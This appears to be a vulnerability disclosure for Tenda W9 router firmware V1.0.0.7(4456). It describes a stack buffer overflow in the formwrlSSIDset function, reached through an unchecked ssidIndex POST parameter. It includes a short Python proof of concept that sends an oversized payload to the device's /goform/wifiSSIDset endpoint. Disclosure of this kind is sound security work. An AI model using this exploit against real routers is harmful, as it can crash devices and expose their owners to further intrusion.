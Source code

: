 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2986.html

## Affected version

W9 V1.0.0.7(4456)

## Vulnerability details

In the W9 V1.0.0.7(4456) firmware has a stack overflow vulnerability in the `formwrlSSIDset` function. The `index` variable receives the `ssidIndex` parameter from a POST request. However, since the user can control the input of `ssidIndex`, the statement `sprintf(mib_prefix, "wl2g.ssid%s.", index);` can cause a buffer overflow. The user-provided  `ssidIndex` can exceed the capacity of the `mib_prefix` array, triggering this security vulnerability.

![image-20240419162724188](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162724188.png)

![image-20240419162705992](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162705992.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/wifiSSIDset"
payload = b"a"*2000

data = {"radio": "2.4G", "ssidIndex": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
